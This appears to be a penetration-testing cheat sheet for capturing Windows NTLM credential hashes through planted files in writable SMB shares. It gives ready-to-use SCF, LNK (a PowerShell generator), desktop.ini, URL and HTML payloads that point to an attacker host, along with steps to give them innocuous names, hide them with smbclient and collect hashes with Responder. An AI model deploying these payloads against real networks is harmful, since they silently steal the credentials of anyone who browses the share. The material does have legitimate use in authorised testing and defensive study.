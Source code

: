 # Automatic on folder/share visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Automatic on folder/share visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire up responder `responder -I eth0`

# Automatic on folder/share visit III: INI Files Inside System folders
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\settings
```
1. save the file with the above contents inside a `desktop.ini` file
2. connect to the writable SMB share using `smbclient`
3. create a folder and give it a non-suspicious name using `mkdir`
4. set the folder attribute to be a system folder using `setmode <FOLDER> +s`
5. change int the new folder
6. upload the `desktop.ini` file `put <INI_FILE>`
7. make it a system file using `setmode <INI_FILE> +s`
8. and make it hidden using `setmode <INI_FILE> +h`
9. *overall,* it should like this:
```
smb: \> mkdir <FOLDER>
smb: \> setmode <FOLDER> +s
smb: \> cd <FOLDER>
smb: \> put <INI_FILE>
smb: \> setmode <INI_FILE> +s
smb: \> setmode <INI_FILE> +h
```
10. fire up responder `responder -I eth0`

# Works when *Selected*: URL files
```
[InternetShortcut]
URL=file://<ATTACKER_IP>/@IEsettings
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Must be opened to work: HTML files (tested on IE & Chrome)
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. Put the contents into a non-suspicious file name like `bookmarks.html`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`
